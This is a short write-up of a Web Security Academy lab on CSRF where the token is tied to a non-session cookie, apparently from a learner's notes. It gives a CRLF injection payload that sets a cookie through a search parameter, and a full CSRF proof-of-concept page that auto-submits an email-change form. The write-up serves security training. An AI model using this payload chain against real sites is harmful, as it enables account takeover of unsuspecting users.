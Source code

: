 
Following the official solution, it is necessary to use this payload:

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- 0x0A is the newline character \n
- 0x0D is the return character \r
- Set-Cookie will change the value for the Cookie HTTP Header 


The img element will load the malicious URL and the submit the form generated by Burp:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	  <form action="https://0a3a0029035a2e108071588100890067.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="l0RRXoovjgxMasM34eeADEMkc24whrt3" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3a0029035a2e108071588100890067.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=tCFA5gCGZOqAwxhYizupPrZqP7jvVE8L%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/5.png)
